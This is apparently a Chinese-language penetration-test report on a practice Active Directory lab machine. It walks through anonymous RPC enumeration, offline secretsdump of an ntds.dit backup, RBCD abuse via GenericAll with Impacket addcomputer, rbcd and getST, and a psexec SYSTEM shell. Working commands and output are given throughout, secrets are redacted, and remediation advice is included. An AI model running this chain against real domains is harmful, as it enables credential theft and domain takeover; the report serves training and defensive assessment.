


Resourced | Active Directory Penetration Testing Report
作者：Jeff
平台：OffSec Proving Grounds
目標：Resourced，192.168.167.175
網域：resourced.local
系統辨識：Windows 10 / Server 2019 Build 17763 x64，依服務指紋判讀
測試性質：平台實驗靶機練習
成果狀態：已驗證憑證外洩、備份離線解析、RBCD 設定及票證取得。補充截圖確認 ResourceDC 上的 SYSTEM 命令執行與 proof.txt 讀取。
01 Executive Summary 執行摘要
本次針對 OffSec Proving Grounds 的 Resourced 實驗靶機進行滲透測試練習，評估從未驗證身分到高權限服務存取的攻擊路徑。測試辨識出三項互相串連的弱點：帳號描述欄位存放明文密碼、低權限帳號讀取敏感 AD 備份，以及網域控制站電腦物件過度授權。
測試者透過匿名 RPC/SAMR 查得 V.Ventz 的描述欄位密碼，並成功完成 SMB 驗證。接著從 Password Audit 共享下載 ntds.dit、SYSTEM 與 SECURITY，離線解析出網域帳號 NT Hash，再確認 L.Livingstone 的 NT Hash 仍獲目標接受。
BloodHound 分析指出 L.Livingstone 對 RESOURCEDC 電腦物件具有 GenericAll。測試者建立受控電腦帳號，修改目標的 RBCD 屬性，透過 Kerberos S4U2Self 與 S4U2Proxy 取得代表 Administrator 存取 CIFS 的服務票證。終端紀錄支持票證取得與 SMB 互動介面建立。
整體風險評定為嚴重，依據是敏感網域憑證外洩與 DC 物件授權遭成功修改。優先措施為限制備份存取、移除過度 ACL，並處理已外洩憑證。2026/10/24 補充的終端截圖顯示，ResourceDC 上的命令執行身分為 NT AUTHORITY\SYSTEM，並成功讀取 Administrator 桌面的 proof.txt，內容已遮罩。補充的 impacket-psexec 紀錄顯示，測試者以 Kerberos 驗證連線，透過 ADMIN$ 上傳服務程式並建立、啟動遠端服務，取得 SYSTEM Shell。未驗證 Domain Admins 群組成員資格。
02 Scope & Methodology 測試範圍與方法
評估範圍限定於單一目標 192.168.167.175 與 resourced.local。起始條件為沒有網域憑證。依序執行服務辨識、匿名存取測試、憑證驗證、共享資料檢查、備份離線解析、AD ACL 分析、RBCD 驗證與結果整理。
工具與目的：
Nmap：TCP 服務與指紋辨識。
ldapsearch：RootDSE 與匿名目錄查詢。
rpcclient、enum4linux：匿名 RPC 與使用者資訊枚舉。
NetExec：SMB、LDAP 身分驗證、共享權限及 MachineAccountQuota 查詢。
smbclient：檔案讀取與下載。
Impacket secretsdump：備份離線憑證解析。
bloodhound-python、BloodHound：目錄資料蒐集與物件權限關係分析。
Impacket addcomputer、rbcd、getST、smbclient：受控電腦建立、委派寫入與 Kerberos 驗證。
Impacket psexec：以 Kerberos 驗證建立遠端服務，取得 SYSTEM Shell。
已記錄 Impacket v0.13.1。其餘版本以原始輸出為準。以下證據來自原始筆記與 2026/10/24 補充的終端截圖。密碼、雜湊、金鑰與 Flag 以遮罩或變數代替。
03 Attack Path Overview 攻擊路徑總覽
下圖呈現三項弱點如何串連至 Administrator 的 CIFS 票證，再透過 impacket-psexec 取得 ResourceDC 上的 SYSTEM Shell，讀取 proof.txt。
- 匿名 RPC / SAMR，讀取描述欄位密碼，驗證 V.Ventz
- 讀取 Password Audit 內的 AD 備份與系統 Hive
- 離線解析 NT Hash，驗證 L.Livingstone
- 利用對 RESOURCEDC 的 GenericAll，建立 ATTACKER$ 並寫入 RBCD
- 透過 S4U2Self / S4U2Proxy 取得 Administrator 的 CIFS 票證
- 以 psexec 取得 ResourceDC 的 SYSTEM Shell，讀取 proof.txt
三項根因分別提供起始憑證、更多有效身分與目標物件控制權。MachineAccountQuota 為 10 是本次建立受控電腦帳號的條件，不能單獨視為已完成 RBCD 攻擊。
04 Enumeration 資訊蒐集與分析
4.1 服務辨識
Nmap 顯示 53、88、135、139、389、445、464、636、3268、3269、3389、5985、9389 及多個動態 RPC 連接埠開放。LDAP、Kerberos、Global Catalog 與 ADWS 的組合支持網域服務判讀。LDAP 與 RDP 資訊提供 resourced.local 和 RESOURCEDC，避免僅憑連接埠推定網域名稱。
原始指令：
nmap -p- --min-rate 1000 192.168.167.175
nmap -sCV -p 53,88,135,139,389,445,464,636,3268,3269,3389,5985,9389,49666,49668,49674,49675,49693,49708 192.168.167.175SMB 簽章為啟用且必要。本次路徑依賴有效憑證與目錄授權，未以 SMB Relay 作為利用成果。
4.2 LDAP 查詢的成功與限制
匿名 RootDSE 查詢回傳 DC=resourced,DC=local。接著對網域根節點進行匿名 subtree 查詢，回傳 Operations error，要求先完成成功 bind。
ldapsearch -H ldap://192.168.167.175 -x -s base namingcontexts
ldapsearch -H ldap://192.168.167.175 -x -b "DC=resourced,DC=local"判讀：匿名讀取 RootDSE 與匿名列舉網域物件是不同權限。前者成功不代表後者獲准。筆記保留失敗輸出，支持後續改查 RPC 的決策。
4.3 SMB 與 RPC 的交叉驗證
匿名 smbclient 顯示登入成功，卻未列出共享。後續 SMB1 工作群組查詢失敗，不能據此判定所有 SMB 功能失效。rpcclient 的 enumdomusers 與 querydispinfo 則成功回傳使用者與描述，提供可驗證的憑證線索。
取得 V.Ventz 後重新枚舉共享，才看到 Password Audit 的 READ 權限。這代表測試者隨身分改變重新評估攻擊面。
4.4 BloodHound 蒐集與路徑選擇
筆記將收集參數改為 DCOnly，輸出為 14 位使用者、52 個群組與 1 台電腦。此資料支持目錄 ACL 分析，未涵蓋完整端點工作階段或本機群組調查。
取得多個 NT Hash 後，分析範圍擴及其他已掌握身分。選擇 L.Livingstone 的理由為 GenericAll 關係，並由 SMB、LDAP 雜湊驗證成功支持後續利用，而非依帳號描述 SysAdmin 推定權限。
05 Findings & Exploitation 漏洞發現、利用證據與基本修補方向
F-01 匿名可讀帳號描述中的明文密碼
風險：高。
受影響項目：V.Ventz 使用者描述與匿名 RPC/SAMR 查詢面。
前提：目標接受匿名查詢，描述欄位含仍有效的密碼。
驗證步驟：以空帳號連線 rpcclient，執行 enumdomusers 與 querydispinfo，讀得 V.Ventz 的密碼提示，再以該帳號完成 SMB 驗證。
rpcclient -U "" -N 192.168.167.175
rpcclient $> enumdomusers
rpcclient $> querydispinfo
Account: V.Ventz
Desc: New-hired, reminder: [REDACTED]
NetExec SMB:
[+] resourced.local\V.Ventz:[REDACTED]E-01：上述描述欄位與成功驗證輸出。
影響：未驗證身分取得有效網域憑證，接續讀取授權給該帳號的共享資料。
判讀邊界：成功認證不代表本機管理員權限。根因是敏感資料寫入可讀欄位，匿名枚舉擴大暴露範圍。
基本修補方向見本章末表格。
F-02 低權限帳號可讀取 AD 備份與系統 Hive
風險：嚴重。
受影響項目：Password Audit 共享與下層檔案。
前提：有效的 V.Ventz 憑證，以及共享和檔案系統合併後允許讀取的權限。
原始輸出摘要：
Share: Password Audit
Permissions: READ
Active Directory/ntds.dit 25165824 bytes
registry/SYSTEM 16777216 bytes
registry/SECURITY 65536 bytes筆記包含 ntds.dit 與 SYSTEM 的下載成功訊息，本機檔案列表另含 SECURITY。離線解析指令：
impacket-secretsdump -ntds ntds.dit -system SYSTEM -security SECURITY LOCAL輸出包含 Dumping Domain Credentials 與多個帳號 NT Hash。報告遮罩實際值：
L.Livingstone:1105:[LM HASH REDACTED]:[NT HASH REDACTED]:::
NetExec SMB:
[+] resourced.local\L.Livingstone:[NT HASH REDACTED]E-02：共享 READ、下載訊息及本機檔案列表。原始筆記已有。
E-03：secretsdump 輸出與 L.Livingstone 成功驗證。原始筆記已有。
影響：備份內多個網域帳號的憑證材料外洩。至少 L.Livingstone 的 NT Hash 經線上驗證仍有效，擴大後續 AD 權限利用範圍。
判讀邊界：此處是本地備份離線解析，未執行 DCSync，也未直接讀取線上 DC 的 ntds.dit。備份內其他帳號憑證是否仍有效，不能由解析成功推定。
基本修補方向見本章末表格。
F-03 DC 電腦物件過度授權導致 RBCD 濫用
風險：嚴重。
受影響項目：RESOURCEDC 電腦物件 ACL 與 msDS-AllowedToActOnBehalfOfOtherIdentity。
前提：已掌握有效的 L.Livingstone 憑證、該身分對目標具 GenericAll，以及可控制具有適用 SPN 的委派來源帳號。
BloodHound 顯示 GenericAll 關係。NetExec 回傳 L.Livingstone 認證成功，MachineAccountQuota 為 10。後續 addcomputer 透過 SAMR 建立 ATTACKER$，rbcd 寫入目標委派。
原始成功訊息摘錄：
Successfully added machine account ATTACKER$ with password [REDACTED].
Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
Delegation rights modified successfully!
ATTACKER$ can now impersonate users on RESOURCEDC$ via S4U2Proxy接著 getST 指定 cifs/RESOURCEDC.resourced.local 與 Administrator：
Getting TGT for user
Impersonating Administrator
Requesting S4U2self
Requesting S4U2Proxy
Saving ticket in Administrator@cifs_RESOURCEDC.resourced.local@RESOURCED.LOCAL.ccache設定 KRB5CCNAME 後，impacket-smbclient 以 -k -no-pass 進入互動介面。其 whoami 回傳 Unknown syntax，代表 SMB 工具未提供該命令，不能作為作業系統身分查核。
取得服務票證並設定 KRB5CCNAME 後，接續執行下列指令。此為測試者補充的原始操作紀錄：
impacket-psexec -k -no-pass -dc-ip 192.168.167.175 resourced.local/Administrator@RESOURCEDC.resourced.localImpacket v0.13.1
[*] Requesting shares on RESOURCEDC.resourced.local.....
[*] Found writable share ADMIN$
[*] Uploading file zFKgxdNn.exe
[*] Opening SVCManager on RESOURCEDC.resourced.local.....
[*] Creating service SrBW on RESOURCEDC.resourced.local.....
[*] Starting service SrBW.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2145]
C:\Windows\system32> whoami
nt authority\system-k 指定 Kerberos 驗證，-no-pass 不提示輸入密碼。輸出顯示 ADMIN$ 可寫入，psexec 上傳服務程式後透過 SVCManager 建立並啟動服務，whoami 確認遠端命令身分為 SYSTEM。此操作以 Administrator 身分驗證，再透過遠端服務取得 SYSTEM 執行身分，並非將帳號加入 Domain Admins。
E-04：BloodHound GenericAll 原始截圖，來源為 Resourced 筆記。圖中箭頭由 L.Livingstone 指向 RESOURCEDC 電腦物件，標示 GenericAll。


圖 5-1：L.Livingstone 對 RESOURCEDC 的 GenericAll 關係。此圖未含密碼、NT Hash 或金鑰。
E-05：建立電腦、委派寫入、S4U 與票證儲存訊息。原始筆記已有。
E-06：ResourceDC 最終權限與目標檔案讀取，補充日期為 2026/10/24。


圖 5-2：原始終端截圖。whoami 回傳 nt authority\system，hostname 回傳 ResourceDC，dir 列出 Administrator 桌面的 proof.txt，type proof.txt 顯示檔案內容，Flag 已遮罩。
此截圖確認目標主機上的 SYSTEM 命令執行與 proof.txt 讀取，前述 psexec 文字紀錄補足從 Kerberos 驗證到遠端命令執行的操作過程。
影響：攻擊者成功修改 DC 的委派信任關係並取得代表高權限身分的特定服務票證，造成 DC 服務層級的身分濫用風險。
判讀邊界：E-06 已確認 ResourceDC 上的 SYSTEM 命令工作階段與 proof.txt 讀取，psexec 紀錄已補足此工作階段的取得方式。未驗證 Domain Admins 成員資格。根因是 DC 電腦物件的過度 ACL。RBCD 本身為委派機制。
基本修補方向見本章末表格。
5.4 基本修補方向
以下為依已驗證弱點提出的建議，未執行企業修復或修補驗收。
| Finding ID | 弱點原因 | 建議修補方向 |
|---|---|---|
| F-01 | 帳號描述欄位存放明文密碼 | 移除明文密碼、輪替外洩憑證 |
| F-02 | 一般帳號能讀取 AD 備份 | 限制 SMB 共享及 NTFS 存取權限 |
| F-03 | DC 電腦物件具有過度授權 | 檢查並移除非必要的 GenericAll 權限 |
證據狀態：
E-01 至 E-03、E-05 保留原始操作紀錄及相關執行結果，E-04 附有 BloodHound 權限關係截圖，E-06 附有 SYSTEM 身分與 proof.txt 讀取的終端截圖。
所有公開證據均遮罩密碼、NT Hash、金鑰及 Flag 內容。
06 Risk Assessment 風險評估
| Finding ID | 風險等級 | 已驗證影響 | 修補優先順序 |
|---|---|---|---|
| F-01 | 高 | 未驗證身分取得有效網域帳號密碼 | P1，移除明文與輪替憑證 |
| F-02 | 嚴重 | 低權限帳號取得 AD 備份，解析出有效 NT Hash | P1，限制備份讀取 |
| F-03 | 嚴重 | DC 委派設定遭修改，取得 Administrator 的 CIFS 票證，經 psexec 取得 SYSTEM Shell | P1，移除非必要物件控制權 |
三項均列 P1，建議同步阻斷已驗證攻擊路徑。風險等級描述影響程度，優先順序反映處置急迫性，並非已完成修補的紀錄。
採定性評級，以利用前提、已驗證影響與攻擊鏈位置判斷。未計算正式 CVSS 分數，避免套用範例分數。
整體評級：嚴重。三項缺失串連後，單一低權限憑證即成為接近 DC 高權限服務的入口。已觀察到憑證保密性受損與委派設定完整性受損。未測試服務中斷，不宣稱已造成可用性損失。
MachineAccountQuota 為 10 列為加固項目與利用條件，不另計一項嚴重漏洞。備份含高權限帳號與 krbtgt 材料，但本次未驗證其當前有效性，亦未執行 Golden Ticket。